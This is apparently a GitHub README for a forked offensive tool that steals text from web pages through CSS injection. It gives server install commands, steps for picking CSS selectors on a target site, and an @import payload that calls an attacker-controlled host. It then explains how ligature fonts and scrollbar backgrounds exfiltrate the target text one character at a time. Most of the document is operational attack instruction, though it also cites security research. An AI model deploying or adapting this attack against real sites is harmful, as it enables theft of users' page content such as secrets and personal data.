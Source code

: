 https://github.com/user-attachments/assets/2eb2ec3a-8694-43c7-bbb1-0bc61861badb


# Preface

Code is kinda janky and not well tested. 

# Install on your own server

0. Get a Debian 12 VPS(512MB RAM and 1 Core CPU was enough for me) and link a domain(any.com) to your server and wait for it to  propagate(https://www.whatsmydns.net/) (usually takes max 1hour depending on the ttl configured for your domain)

1. Run the following as root on the Debian 12 VPS:
```bash
apt install apache2 certbot python3-certbot-apache -y && certbot --authenticator webroot --installer apache --register-unsafely-without-email
```
and agree to the terms, enter your domain(any.com) and enter /var/www/html as webroot then run the following as root on the Debian 12 VPS:
```bash
apt install git -y && git clone https://github.com/sys0wn/css-scrollbar-attack && cd css-scrollbar-attack && chmod +x install.sh && bash install.sh
```

# How to use it

0. Use a chromium-based Browser that supports webkit scrollbar-styling. I have tested Chromium and Google Chrome.
1. On the website you are trying to target pick an html element you want to steal.
2. Find a combination of css selectors, that points directly to the element(e.g: p { color: red } targets all p-tags, so if there is more than 1 it doesn't point to ONLY one element and therefore no exfiltration will be possible). Use Selectors like ```https://developer.mozilla.org/en-US/docs/Web/CSS/CSS_selectors``` and combine as many as needed to point directly to the target element. Examples for this:

```
<!doctype html>
<body>
<div>
   <h4>a</h4>
   <p id=leakme class="leakme">stealThis</p>
</div>
</body>
</html>
```

Here, the "stealThis" could be pointed to for example by: p {}, div > p {}, #leakme {}, .leakme {}, div > #leakme {}, body > div > p {}, h4 + p {}, div > h4 + p {} and many many more


You can test if your combination of selectors points directly to your target element by hitting CTRL+SHIFT+C and searching for something like ```#leakme``` or ```div > p```; If there is only one result for your search that is a combination of selectors you can use!

3. Create the payload for your CSS-Injection by plugging your combination of selectors into the following syntax: ```<style>@import url('//any.com/%23leakme/css.css');</style>``` where you have to replace the %23leakme with your URL-ENCODED(you can use websites like https://www.urlencoder.org/) combination of selectors.

# Example

```
<!doctype html>
<body>
<div>
   <h4>a</h4>
   <p id=leakme class="leakme">stealThis</p>
</div>
</body>
</html>
```

```div > h4 + p```  -->  ```<style>@import url('//any.com/div%20%3E%20h4%20%2B%20p/css.css');</style>```

# Demo

https://jsfiddle.net/q3mc5kxn/1/

https://any.com/index.html                 //Once you've installed it on your server


# How it works (short)

If <style>@import url('//any.com/div%20%3E%20h4%20%2B%20p/css.css');</style> is injected into a website the server will create a lot of fonts with different ligatures (https://en.wikipedia.org/wiki/Ligature_(writing)) that are used to bruteforce one character at a time by performing a binary search on the target text and exfiltrating it to a remote server. All the logic is serverside and the only client-side code that has to be injected is the <style> tag above that points to the target element.

# How it works (medium)


https://any.com/ is running a node server(this Github project), which will be the backend for the attack and serve all the css and handle the logic involved.
***
A ligature in a font is a sequence of at least two characters, which has its own graphical representation (for more info https://en.wikipedia.org/wiki/Ligature_(writing))
***

1. The @import will send a GET request to https://any.com/div%20%3E%20h4%20%2B%20p/css.css
2. The server receives the combination of selectors ```div%20%3E%20h4%20%2B%20p``` and therefore now knows which element to target and which text to steal
3. As a response to the GET request the following css is returned ```@import url('//any.com/start');```. This css will also be applied to the target page and a GET Request will be sent to https://any.com/start

4. Now, as a response to /start the any.com backend will do the following:

- For each character in "@.abcdefghijklmnopqrstuvwxyz...", generate a ligature starting from the first-letter. So lets say the text of the target element starts with a "s"; we will create 3 fonts: 1 for "@.abcdefgh", 1 for "ijklmnopqr" and 1 for "stuvwxyz". Now we create the ligatures: font 1 will have a ligature for "s@", "s.", "sa", "sb" ...  font2 will have a ligature for "si", "sj" ... and so on. 
- Using a CSS animation apply each of the fonts to the target-element one after each other. The first font that causes one of the ligatures("s@", "s.", "st", "sa" ...) to render is interesting to us, as if e.g. the font for "@.abcdefgh" causes a ligature to render, that gives us the information, that the second character is one of "@.abcdefgh". (Because a ligature from the first letter to the second letter was rendered which means that the second character has to be one of "@.abcdefgh".
- In order to exfiltrate this information, each of the ligatures has a very high ```horiz-adv-x``` value. This will result in the target-element getting substantially wider if the current "correct" font  is applied and a ligature is rendered. This width change will cause a scrollbar to appear. If the scrollbar appears, it will exfiltrate the information, that the second letter is one of "@.abcdefgh". This is done like this:

```
p::-webkit-scrollbar {
    background: blue;
}
p::-webkit-scrollbar:horizontal {
    background:var(--x);
}`;
```

Where --x (a css variable) is set to something like "https://any.com/@.abcdefgh" when font1 is applied at the beginning.

- Now, start again. This time create ligatures for each character in "@.abcdefgh" -> font1: "@.ab" font2: "cde", font3: "fgh"
- Keep using the same technique to perfrom a kind of binary search on each letter using ligatures, cutting the amount of possible letters in half every time until only one remains. Then move on the next letter performing the next binary search until the entire word is leaked.

References: https://aszx87410.github.io/beyond-xss/en/ch3/css-injection-2/, https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection, https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf, https://github.com/cgvwzq/css-scrollbar-attack/

# How it works (long)

Read the (kinda) documented source code (index.js)

# Limitations

- In the current configuration ~30 chars is max amount that can be exfiltrated but this is not a hard limit and can be increased I think
- Characters a-z A-Z 0-9 .@+!#=$^    but in theory there are no limitations which printable characters are possible, it's just a hassle because you have to correctly encode it and stuff.
- The Browser tab from which the text will be exfiltrated always has to stay in focus(don't switch tab, dont minimize window etc.)
- It takes some time to exfiltrate the text, but this can be optimised, for example by using only a-z if the others aren't needed or decreasing the DURATION and/or DELAY variable in the js and so on. The current configuration of the code is aimed at reliability and support for as much chars as possible etc.

# Tip

- If you face seemingly illogical errors while trying to reproduce this go to: ```chrome://settings/privacy``` and clean the cache(fonts are cached which might mess with the detection and exfiltration.
***
# This repo is a fork of https://github.com/cgvwzq/css-scrollbar-attack which I have modified, improved and documented. Thanks to cgvwzq for the awesome code and thanks to @SecurityMB (https://sekurak.pl/wykradanie-danych-w-swietnym-stylu-czyli-jak-wykorzystac-css-y-do-atakow-na-webaplikacje/) for coming up with (part of) the idea (I think).
